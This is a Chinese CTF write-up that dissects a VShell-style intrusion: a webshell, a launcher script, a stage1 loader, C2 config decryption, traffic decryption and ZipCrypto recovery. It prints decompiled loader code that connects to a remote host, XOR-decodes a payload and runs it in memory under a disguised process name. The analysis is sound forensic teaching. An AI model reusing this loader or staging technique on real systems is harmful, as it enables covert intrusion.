



# V(N)Shell

## 题目简述

题目是基于 VShell 行为的流量与二进制分析题。流量中先能看到 `shell.php` 一句话木马执行命令，随后上传并运行 `open` 脚本；`open` 会启动名为 `gift` 的 stage1 加载器。stage1 连接 `192.168.56.1:11451`，发送 `l64` 和主机信息，然后接收远端 stage2，接收过程中每个字节异或 `0x99`，最后通过 `fexecve` 执行 stage2。

stage2 是 Go 编写的主木马，配置以 0x5000 字节左右的加密块嵌入。配置解密逻辑可概括为：配置块前 16 字节同时作为 AES-CBC 的 key 和 IV，后续密文解密后去掉零填充，再 JSON 解析。解出的配置包含：

```json
{"server":"192.168.56.1:11451","type":"tcp","vkey":"We1c0nn3_t0_VNctf2O26!!!","proxy":"","salt":"It_is_my_secret!!!","l":false,"e":false,"d":30,"h":10}
```

C2 流量使用 AES-GCM 加密，密钥是 `md5(salt)` 的 ASCII 十六进制字符串，nonce 为每条流量中的 12 字节 IV。流量解密后可看到攻击者创建加密 zip 的命令，密码为 `White_hat`；后续还会得到 `zip2john` 形式的 pkzip 哈希，可用 ZipCrypto 解密逻辑恢复 `VIP_file` 内容。

## 解题过程

tips:本次出题大部分借鉴[GitHub - Esonhugh/How-AI-Kills-the-VShell: Article backup](https://github.com/Esonhugh/How-AI-Kills-the-VShell/tree/Skyworship)
出题思路
php一句话木马->stage1->stage2->zip2json

### 提取stage1,stage2

初步打开流量包分析，看到shell.php执行了一些系统命令，过滤分析

```
http.request.uri contains "shell.php"
```

可以看到我传递了一些文件，最后执行了bash open



先分析open文件

```
http contains "open"
```

追踪到这个open是一个sh脚本文件，作用是执行gift程序，已经可以猜测到了，这里的gift就是stage1加载器

`open` 的主体是一个很短的 shell 脚本：检查同目录下的 `gift` 是否存在且可读，`chmod +x ./gift` 后直接执行。

```bash
#!/bin/bash
if [ ! -f "./gift" ]; then
    echo "not found"
    exit 1
fi

if [ ! -r "./gift" ]; then
    echo "permission denied"
    exit 1
fi

chmod +x "./gift"

if [ $? -ne 0 ]; then
    echo "chmod wrong"
    exit 1
fi

if file "./gift" | grep -q "ELF.*executable"; then
    echo "runing gift..."
    ./gift
else
    echo "wrong"
    ./gift
fi
```

将gift导出，并用ida进行逆向分析
对main函数进行反编译，了解加载器主要逻辑

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  struct hostent *v3; // rax
  in_addr_t v4; // eax
  int v5; // eax
  int v6; // ebx
  int v7; // r12d
  int v8; // edx
  _BYTE *v9; // rax
  __int64 v10; // rcx
  _DWORD *v11; // rdi
  _BYTE buf[2]; // [rsp+2h] [rbp-1476h] BYREF
  int optval; // [rsp+4h] [rbp-1474h] BYREF
  char *argva[2]; // [rsp+8h] [rbp-1470h] BYREF
  sockaddr addr; // [rsp+1Ch] [rbp-145Ch] BYREF
  char name[33]; // [rsp+2Fh] [rbp-1449h] BYREF
  char resolved[1024]; // [rsp+50h] [rbp-1428h] BYREF
  _BYTE v19[4136]; // [rsp+450h] [rbp-1028h] BYREF
if ( !access("/tmp/log_de.log", 0) )
    exit(0);
  qmemcpy(name, "192.168.56.1", sizeof(name));
  *(_QWORD *)&addr.sa_family = 3140222978LL;
  *(_QWORD *)&addr.sa_data[6] = 0;
  v3 = gethostbyname(name);
  if ( v3 )
    v4 = **(_DWORD **)v3->h_addr_list;
  else
    v4 = inet_addr(name);
  *(_DWORD *)&addr.sa_data[2] = v4;
  v5 = socket(2, 1, 0);
  v6 = v5;
  if ( v5 >= 0 )
  {
    optval = 10;
    setsockopt(v5, 6, 7, &optval, 4u);
    while ( connect(v6, &addr, 0x10u) == -1 )
      sleep(0xAu);
    send(v6, "l64   ", 6u, 0);
    buf[0] = addr.sa_data[0];
    buf[1] = addr.sa_data[1];
    send(v6, buf, 2u, 0);
    send(v6, name, 0x20u, 0);
    v7 = syscall(319, "a", 0);
    if ( v7 >= 0 )
    {
      while ( 1 )
      {
        v8 = recv(v6, v19, 0x1000u, 0);
        if ( v8 <= 0 )
          break;
        v9 = v19;
        do
          *v9++ ^= 0x99u;
        while ( (int)((_DWORD)v9 - (unsigned int)v19) < v8 );
        write(v7, v19, v8);
      }
      v10 = 1024;
      v11 = v19;
      while ( v10 )
      {
        *v11++ = 0;
--v10;
      }
      close(v6);
      realpath(*argv, resolved);
      setenv("CWD", resolved, 1);
      argva[0] = "[kworker/0:2]";
      argva[1] = 0;
      fexecve(v7, argva, _bss_start);
    }
  }
  return 0;
}
```

简而言之，就是加载器会连接远程服务器下载stage2主木马，在下载过程中，会对数据进行0x99 异或
先划拉到执行bash open 那里，下面会看到受害机器与新的端口进行握手，然后传递stage2，已经可以锁定第
二题答案了，就是192.168.56.1:11451



对stage1仔细分析的话，会明白，加载器会先传递l64和监听地址等信息，然后接收异或数据



提取出来stage2后继续逆向分析

### 提取config

#### 方法一

在ida中进行分析，应该不难全局查找json字符（通过文章可以清楚，最后解密出来的config信息是段json序列
随意点击一个

通过交叉引用，选中call encoding_json_Unmarshal （我选的第二行那个，相对来说是最早调用的

查看它的地址0x598FB8

```text
Occurrences of "json":
  .text:00000000005564E0  encoding_json.Unmarshal
  sub_556637+19             jmp  encoding_json_Unmarshal
  sub_598F00+B8             call encoding_json_Unmarshal
  sub_6D6FA0+208            call encoding_json_Unmarshal
  sub_7CE260+51             call encoding_json_Unmarshal

breakpoint: 0x598FB8
```

在获取这个地址的时候，可以稍微对上下程序分析，大致逻辑是读取密文->调用解密函数->得到明文->解
析JSON到结构体
这里的encoding_json_Unmarshal 就是最后一步

然后上gdb打个断点直接获取(pwngdb完全可以一把梭)

```
pwndbg> b *0x598FB8
Breakpoint 1 at 0x598fb8
pwndbg> run
Starting program: /home/yolo/下载/download.elf
[New LWP 300055]
[New LWP 300056]
[New LWP 300058]
[New LWP 300057]
Thread 1 "download.elf" hit Breakpoint 1, 0x0000000000598fb8 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
────────────────────────────────────────[ LAST SIGNAL
]────────────────────────────────────────
Breakpoint hit at 0x598fb8
────────────────────[ REGISTERS / show-flags off / show-compact-regs off
]─────────────────────
 RAX  0xc0001b1000 ◂—
'{"server":"192.168.56.1:11451","type":"tcp","vkey":"We1c0nn3_t0_VNctf2O26!!!",
"proxy":"","salt":"It_is_my_secret!!!","l":false,"e":false,"d":30,"h":10}'
 RBX  0x97
 RCX  0x4ff0
 RDX  0
 RDI  0x8081a0 ◂— 8
 RSI  0xc00018c070 ◂— 0
 R8   0xc0001b1000 ◂—
'{"server":"192.168.56.1:11451","type":"tcp","vkey":"We1c0nn3_t0_VNctf2O26!!!",
"proxy":"","salt":"It_is_my_secret!!!","l":false,"e":false,"d":30,"h":10}'
 R9   0
 R10  0x10
 R11  0x10
 R12  0xc000026260 ◂— 0x18b63140574269ac
 R13  0x10
 R14  0xc0000061a0 —▸ 0xc0000c2000 ◂— 0
 R15  0x10
 RBP  0xc0000c3e08 —▸ 0xc0000c3f58 —▸ 0xc0000c3f70 —▸ 0xc0000c3fd0 ◂— 0
 RSP  0xc0000c3dc8 —▸ 0xc0001b1000 ◂—
'{"server":"192.168.56.1:11451","type":"tcp","vkey":"We1c0nn3_t0_VNctf2O26!!!",
"proxy":"","salt":"It_is_my_secret!!!","l":false,"e":false,"d":30,"h":10}'
 RIP  0x598fb8 ◂— call 0x5564e0
─────────────────────────────[ DISASM / x86-64 / set emulate on
]──────────────────────────────
 ► 0x598fb8    call   0x5564e0                    <0x5564e0>

   0x598fbd    nop    dword ptr [rax]
   0x598fc0    test   rax, rax
   0x598fc3    je     0x599027                    <0x599027>

   0x598fc5    nop
   0x598fc6    lea    rax, [rip + 0x2aa6f3]     RAX => 0x8436c0 ◂— 0x10
   0x598fcd    call   0x40ce80                    <0x40ce80>

   0x598fd2    mov    qword ptr [rax + 8], 0xa
   0x598fda    lea    rcx, [rip + 0x30c21a]           RCX => 0x8a51fb ◂—
0x65206769666e6f63 ('config e')
   0x598fe1    mov    qword ptr [rax], rcx
   0x598fe4    mov    rsi, qword ptr [rsp + 0x38]
───────────────────────────────────────────[ STACK
]───────────────────────────────────────────
00:0000│ rsp 0xc0000c3dc8 —▸ 0xc0001b1000 ◂—
'{"server":"192.168.56.1:11451","type":"tcp","vkey":"We1c0nn3_t0_VNctf2O26!!!",
"proxy":"","salt":"It_is_my_secret!!!","l":false,"e":false,"d":30,"h":10}'
01:0008│-038 0xc0000c3dd0 ◂— 0x4ff0
02:0010│-030 0xc0000c3dd8 ◂— 0x4ff0
03:0018│-028 0xc0000c3de0 —▸ 0x94eeb0 ◂— 0
04:0020│-020 0xc0000c3de8 —▸ 0xc0000c3e58 ◂— 0
05:0028│-018 0xc0000c3df0 ◂— 0x5000
06:0030│-010 0xc0000c3df8 —▸ 0xc0001ac000 ◂— 0x18b63140574269ac
07:0038│-008 0xc0000c3e00 —▸ 0xc00018c070 ◂— 0
─────────────────────────────────────────[ BACKTRACE
]─────────────────────────────────────────
 ► 0         0x598fb8 None
   1     0xc0001b1000 None
   2           0x4ff0 None
   3           0x4ff0 None
   4         0x94eeb0 None
   5     0xc0000c3e58 None
   6           0x5000 None
   7     0xc0001ac000 None
─────────────────────────────────────[ THREADS (5 TOTAL)
]─────────────────────────────────────
  ► 1   "download.elf" stopped: 0x598fb8
    5   "download.elf" stopped: 0x403c4e
    4   "download.elf" stopped: 0x45dcd2
    3   "download.elf" stopped: 0x45dc63
Not showing 1 thread(s). Use set context-max-threads <number of threads> to
change this.
───────────────────────────────────────────────────────────────────────────────
────────────────
pwndbg> x/20gx $rsp
0xc0000c3dc8:   0x000000c0001b1000  0x0000000000004ff0
0xc0000c3dd8:   0x0000000000004ff0  0x000000000094eeb0
0xc0000c3de8:   0x000000c0000c3e58  0x0000000000005000
0xc0000c3df8:   0x000000c0001ac000  0x000000c00018c070
0xc0000c3e08:   0x000000c0000c3f58  0x00000000007de458
0xc0000c3e18:   0x0000000000000000  0x0000000000000000
0xc0000c3e28:   0x0000000000000000  0x0000000000000000
0xc0000c3e38:   0x0000000000000000  0x0000000000000000
0xc0000c3e48:   0x0000000000000000  0x0000000000000000
0xc0000c3e58:   0x0000000000000000  0x0000000000000000
pwndbg> x/s 0x000000c0001b1000
0xc0001b1000:   "
{\"server\":\"192.168.56.1:11451\",\"type\":\"tcp\",\"vkey\":\"We1c0nn3_t0_VNct
f2O26!!!\",\"proxy\":\"\",\"salt\":\"It_is_my_secret!!!\",\"l\":false,\"e\":fal
se,\"d\":30,\"h\":10}"
pwndbg>
```

#### 方法二

具体程序逻辑还是请参考上面提供的github仓库链接，那位大佬描述的很清晰
至于config如何提取，我有小技巧
在汇编里面直接搜索5000h 就能找到加密config 存放的位置（我观察了很久，发现vshell的任何模式对于config
的加密数据，最后都是生成5000h大小，也就是20480字节的空间存储

观察到这个大小的字节被sub_598F00 函数调用，可以继续分析来获取解密逻辑
config的解密是通过 aes_cbc_pkcs7_decrypt 模式解密，其中 key 与 iv 均为该配置块的前16字节，最后通过

JSON Unmarshal  进行序列化重构
先提取加密信息

```python
import idaapi


def extract_binary_data(start_addr, size, output_file):
    data = idaapi.get_bytes(start_addr, size)
    if data is None:
        raise RuntimeError(f"cannot read bytes at 0x{start_addr:x}")
    with open(output_file, "wb") as f:
        f.write(data)
    print(f"saved {len(data)} bytes to {output_file}")


extract_binary_data(0x8C6339, 0x5000, "extracted_data.bin")
```

这里用 IDA 跑脚本即可，输出显示成功提取 `20480` 字节并保存为 `extracted_data.bin`。

接下来对config解密
这是我的解密脚本(我发现这里并不像仓库说的，用pkcs7填充，因为数据后面全是0,可以认为Vshell开发者使用0
填充的config信息,然后进行加密)

```python
import json
from Crypto.Cipher import AES


def remove_zero_padding(data):
    return data.rstrip(b"\x00")


with open("extracted_data.bin", "rb") as f:
    blob = f.read()

key_iv = blob[:16]
ciphertext = blob[16:]
plain = AES.new(key_iv, AES.MODE_CBC, key_iv).decrypt(ciphertext)
config = json.loads(remove_zero_padding(plain).decode("utf-8"))

print(json.dumps(config, indent=2, ensure_ascii=False))
```

解密后成功拿到第三问答案 `It_is_my_secret!!!`，配置内容与前文题目简述中的 JSON 一致；其中 `salt` 后续会参与 C2 流量密钥派生。

### 解密流量

后面提取流量加密逻辑相对来说很麻烦，为了不占用篇幅，感兴趣的选手可以直接查看那个仓库或者函数

sub_6D7E40 ,它是我追踪关键字‘client’，一个一个排查出来的，会发现这里的函数先是对vkey进行校验等操作，
接下来可以继续交叉引用逆向分析获取流量加密逻辑
我直接给出结论：密文通过AES GCM 模式加密，nonce 为IV，密钥为salt 的md5 值

逆向 `sub_6D7E40` 时还能看到用于区分配置字段的 4 字节常量，例如 `2036689782` 按小端转 ASCII 为 `vkey`：

```python
num = 2036689782
print(num.to_bytes(4, "little").decode("ascii"))
# vkey
```

这里再描述下流量包的格式(随机选取了一个稍微长点的流)

流量包按“无用分隔字段 + nonce + GCM 密文/标签”的形式组织，示例可以抽象为：

```text
d7 00 00 00 | a7 9b 3b 8a 06 96 1f f9 83 a5 d1 21 | <AES-GCM ciphertext/tag>
separator   | 12-byte nonce                         | encrypted payload
```

d7000000 这四个字节没有用（所有加密流量开头都有这样类似四个字节：几乎都是一个非0和3个0组成，
作用应该就是流量之间的分割

a79b3b8a06961ff983a5d121 这12个字节就是nonce ，在加密中充当IV

0656681ae1c～faeba0499f78d4 中间数据长度没有限制，是密文

d057c90912184e3f0daef1bb6d20a21a 最后面这16个字节是垃圾数据，直接扔了

通过上述结论，可以写出一个简易的单条流量解密脚本

```python
import hashlib
import re
import struct
from cryptography.hazmat.primitives.ciphers.aead import AESGCM


def decrypt_c2_data(salt, hex_payload):
    key_hex = hashlib.md5(salt.encode()).hexdigest()
    key = key_hex.encode('ascii')
    aesgcm = AESGCM(key)

    data = bytes.fromhex(hex_payload.replace("\n", "").replace(" ", ""))
    msg_len = struct.unpack('<I', data[:4])[0]
    content = data[4:4+msg_len]

    nonce = content[:12]
    ciphertext_with_tag = content[12:]
    plaintext = aesgcm.decrypt(nonce, ciphertext_with_tag, None)

    text = plaintext.decode('utf-8', errors='replace').strip('\x00').strip()
    ansi_escape = re.compile(r'(?:\x1B[@-_][0-?]*[ -/]*[@-~]|\x07)')
    final_text = ansi_escape.sub('', text)
    print(final_text or plaintext.hex())
    return plaintext


SALT = "It_is_my_secret!!!"
data_1 = (
    "2a0100009f0469cacfd2f08d092cbb1c0de3f66d807f3e3b3407e02afc077ef4f7263900e78c97"
    "461a8367aac05f0dbe2c84bb44e8c0ff007a9f2afd97858d0eb83b9e712107c142f4a30e0e8e1eb"
    "c1c4754a142ed60d777c52a7d5a057ddb910796bd4903acd776c18603c0b4e7741972d96d8ad422"
    "904ffa0a2aa4105289439e5c1a0aa351fc75fd4fac22c5058ed379484a4858f2c1c8e0621f27d39"
    "2026e5abd69f8eff6b6b16db272d3cdaa24af3ce7f6fb1260721033ec9c1d664b5c55e58307cf28"
    "14d6f2dce639ebf3566e81141ee0a9fb91c292350b5405d327ca30dadba0c285a1140d29362db2a"
    "dec41e80ff497f1e5979aa7bfdb42699340e4f309c6b8cfbf8eaf726da31028dbd9c2e6856fae28"
    "3338ce6631e859026a09e73557ee028656600a67d27a0e3220cd"
)
print("--- 尝试解密第一条 (Client -> Server) ---")
decrypt_c2_data(SALT, data_1)
```

"""运行结果
python vshellstudy.py
🔓 解密成功 (原始长度 270 字节):
------------------------------
📄 识别到的文本/命令:
{"ConnType":"v","Host":"v","LocalProxy":false,"RemoteAddr":"v","Req":
{"Pass":"v","Type":"M","File":null,"Z1":"zip -9 -e -P \"White_hat\"
/home/kali/Desktop/VIP.zip
VIP_file/home/kali/Desktop/VIP_file","Z2":"","Z3":"","Z4":"","Z5":""},"Option":
{"Timeout":5000000000}}
------------------------------

```
"""
```

第四题答案出来了，桌面那个VIP.zip压缩包的密码是White_hat
也可以用仓库的解密脚本一把梭，在后续的解密流程中，我们会拿到一组pkzip哈希

```
VIP.zip/VIP_file:$pkzip$1*2*2*0*25*19*2d251cff*0*42*0*25*61e5*1450b3d5736810d85
58fa09c3cd1a3c266783e74d767319ed479288f25e35ad3085ee4bba9*$/pkzip$:VIP_file:VIP
.zip::VIP.zip
```

第五个问题是VIP_file的内容是什么，这里考察了如何通过zip2john 得到的哈希去恢复压缩包内容，实现要求是
需要压缩包的密码(明文攻击得到的keys也可以<2025强网拟态决赛上面有个类似的题目>)，以及压缩包必须是

zipcrypto 加密
这里可以参考[buckeyectf2025-zip2johnzip的题解](https://github.com/cscosu/buckeyectf-2025-public/blob/master/forensics/zip2john2zip/solve/solve.py)去解决，解密脚本如下

```
#!/usr/bin/env python3
def pkcrc(x, b):
    x = (x ^ b) & 0xFFFFFFFF
    for _ in range(8):
        if x & 1:
            x = (x >> 1) ^ 0xedb88320
        else:
            x = x >> 1
return x & 0xFFFFFFFF
def decrypt_stream(encrypted_data, password):
    """
    Decrypts a raw stream of ZipCrypto-encrypted bytes.
    """
    key0 = 0x12345678
    key1 = 0x23456789
    key2 = 0x34567890
def _update_keys(byte_val):
        nonlocal key0, key1, key2
        key0 = pkcrc(key0, byte_val)

        temp = (key1 + (key0 & 0xff)) & 0xFFFFFFFF
        key1 = (((temp * 0x08088405) & 0xFFFFFFFF) + 1) & 0xFFFFFFFF

        key2 = pkcrc(key2, (key1 >> 24) & 0xff)
def _get_keystream_byte():
        nonlocal key2
        # This part generates the 1-byte keystream from key2
        temp = (key2 & 0xFFFF) | 3
        return (((temp * (temp ^ 1)) & 0xFFFF) >> 8) & 0xff
# Initialize keys with the password
    for byte_val in password:
        _update_keys(byte_val)

    # Decrypt the data
    decrypted = bytearray()
    for encrypted_byte in encrypted_data:
        keystream_byte = _get_keystream_byte()
        decrypted_byte = encrypted_byte ^ keystream_byte
        decrypted.append(decrypted_byte)
        _update_keys(decrypted_byte)

    return bytes(decrypted)
def parse_pkzip_hash(hash_string):
    if ":$pkzip$" in hash_string:
        hash_part=hash_string.split(":$pkzip$")[1]
    else:
        hash_part=hash_string
hash_part=hash_part.split("*$/pkzip$")[0]+"*"
    parts=hash_part.split('*')
    encrypted_hex=parts[-2]
    print(f"\nEncrypted hex:{encrypted_hex}")
    return bytes.fromhex(encrypted_hex)
if __name__ == "__main__":
    hash = open("./ziphash").read().strip()
    password = b"White_hat" # just throw hash at hashcat / rockyou.txt
    enc=parse_pkzip_hash(hash)
    #enc = bytes.fromhex(hash.split('*')[13])
    print(decrypt_stream(enc,password)[12:])
"""
➜  vnctf cat ziphash
VIP.zip/VIP_file:$pkzip$1*2*2*0*25*19*2d251cff*0*42*0*25*61e5*1450b3d5736810d85
58fa09c3cd1a3c266783e74d767319ed479288f25e35ad3085ee4bba9*$/pkzip$:VIP_file:VIP
.zip::VIP.zip
➜  vnctf python zipjohn.py
Encrypted
hex:1450b3d5736810d8558fa09c3cd1a3c266783e74d767319ed479288f25e35ad3085ee4bba9
b'Welcome to the V&N family'
"""
```

第五题答案参上，本题Solve

## 方法总结

多阶段木马流量题要按阶段拆：WebShell 行为确认入口，stage1 逆向确认下载协议和异或层，stage2 逆向提取配置，再用配置解 C2 流量。VShell 类样本中配置常会先解密成 JSON，再进入协议初始化；如果能在 JSON Unmarshal 前下断点，往往比纯静态还原更快。ZipCrypto 后续题点不要只停在破解密码，`zip2john` 哈希里也包含可用于恢复加密流的字段。
